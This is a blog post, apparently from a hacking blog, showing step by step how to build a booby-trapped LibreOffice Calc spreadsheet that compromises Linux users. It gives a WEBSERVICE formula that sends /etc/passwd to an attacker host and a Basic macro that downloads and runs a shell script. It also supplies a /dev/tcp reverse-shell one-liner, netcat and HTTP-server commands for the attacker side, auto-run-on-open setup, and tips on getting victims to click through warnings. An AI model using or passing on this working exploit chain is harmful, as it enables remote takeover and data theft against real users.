 

##
#
https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html
#
##

USING MALICIOUS LIBREOFFICE CALC MACROS TO TARGET LINUX
 




I've been wondering for a while about the viability and methodology of pwning a Linux box via a malicious LibreOffice Calc spreadsheet so I decided to do some experimentation. This post outlines my research and findings.

Best I can tell, LibreOffice removed DDE functionality as it pertains to arbitrary operating system commands with the advent of CVE-2014-3524. (Please comment and correct me if I'm wrong.) This apparently means it's no longer possible to perform operating system commands with Excel-style attacks, which potentially rules out running operating system commands via CSV injection. Still, there are are some pretty cool data exfiltration exploits out there with LibreOffice Calc formulas that utilize the WEBSERVICE function like this one:

=WEBSERVICE(CONCATENATE("http://<ip>:8080/",('file:///etc/passwd'#$passwd.A1)))

But if you want to achieve operating system command execution, it seems you will need a LibreOffice Calc macro, written in LibreOffice Basic, a dialect of BASIC. I'm going to show you how I achieved a reverse shell in my lab, using a such macro. It may not be elegant, but it works. Please feel free to comment if you know of a simpler way.

Before I start, keep in mind there are lots of caveats to exploits embedded in spreadsheets. With any luck, the victim's instance of Calc is configured with a lenient setting for macros and the victim has been conditioned to click through warnings. On the other hand, Linux is not widely used by unsavvy users, making the chance of social engineering more difficult.

In order to duplicate what I've done here, you will need both an HTTP server to host a malicious file, and a C2. The former can be done easily with Python, and the latter with netcat.

With these caveats in mind, let's get started. The first thing we need is a benign looking Calc spreadsheet, with some mock data for use with social engineering. Then we need to create a malicious macro within this spreadsheet. To create the macro, navigate to the following:

Tools>Macros>Organize Macros>Basic...

Once there, you should see My Macros, LibreOffice Macros, and the current filename. To make our macro apply only to our malicious file, we need to select our filename and click 'New'. You can name it anything and then click 'OK'. The Object Catalog should then open, with your new macro selected and ready for edits. The exploit I'm using is below. I tried reverse shell one liners, but ran into problems and found it easiest for the payload to download a malicious shell script and then execute it. You could also replace this with an msfvenom payload. To use my exploit, replace all of the sample text in your macro with the following:

```
Sub evil

    Shell("wget http://127.0.0.1:665/reverse-shell.sh")
    Shell("chmod +x reverse-shell.sh")
    Shell("bash -c ./reverse-shell.sh")
    
End Sub
```

Once this is complete, close the window and I'll show you how to assign the macro to the 'Open Document' event so it will be run when opening the spreadsheet. NOTE: It's important that you close the Object Catalog window and reopen the Organize Macros window when performing this action, otherwise it won't be possible to assign document-specific macros to events. (I found that the Organize Macros window won't let you assign document-specific macros to events if opened from the Object Catalog window.) Below are the steps to perform after closing the Object Catalog window. You'll need to navigate here again:

Tools>Macros>Organize Macros>Basic...

This time, you'll select your new document-specific macro and click 'Assign...'  Then select the 'Open Document' event and click 'Macro...' Navigate to and select your new macro and then click 'OK' and 'Close'. (If you configured it correctly, the event should look like the screenshot below.)



Next, it's time to prepare our malicious shell script which will be downloaded by our macro, and our C2. Create a file called reverse-shell.sh and populate it with this text:

exec 5<>/dev/tcp/127.0.0.1/666 ; cat <&5 | while read muahaha; do $muahaha 2>&5 >&5; done

Then host the file on your malware server using Python3:

sudo python3 -m http.server 665

And start your C2:

sudo nc -lp 666

Now close and reopen your malicious file, and you should have a reverse shell on your C2. Type whoami, etc. from netcat and if everything looks good, you should be ready to launch your social engineering attack. If you have trouble, check your security settings in Calc and make sure you click through any warnings. (Also, I noticed that if I try the exploit a second time it doesn't work unless I delete reverse-shell.sh each time.)

I now feel I have a better idea of exactly what attacks can be done with LibreOffice Calc and how to protect myself. Needless to say, one must be vigilant when it comes to untrusted files.

Links:
https://notsosecure.com/data-exfiltration-formula-injection-part1
https://www.cvedetails.com/cve/CVE-2014-3524/
https://blog.documentfoundation.org/blog/2014/08/28/libreoffice-4-3-1-fresh-announced/
https://wiki.openoffice.org/wiki/Documentation/BASIC_Guide/Other_Functions_(Runtime_Library)
https://wiki.documentfoundation.org/images/d/da/CG7210-LinkingCalcData.pdf
https://ask.libreoffice.org/t/auto-run-macro-on-open-cant-assign-to-macro-in-document/5474
https://help.libreoffice.org/6.1/he/text/sbasic/shared/03130500.html
https://help.libreoffice.org/Basic/Shell_Function_Runtime
https://stackoverflow.com/questions/11969378/running-a-os-command-from-a-macro
https://documentation.libreoffice.org/assets/Uploads/Documentation/en/CG4.1/PDF/CG4112-CalcMacros.pdf

Test environment:
Kali Linux 2022.1
LibreOffice Calc 7.3.1.1
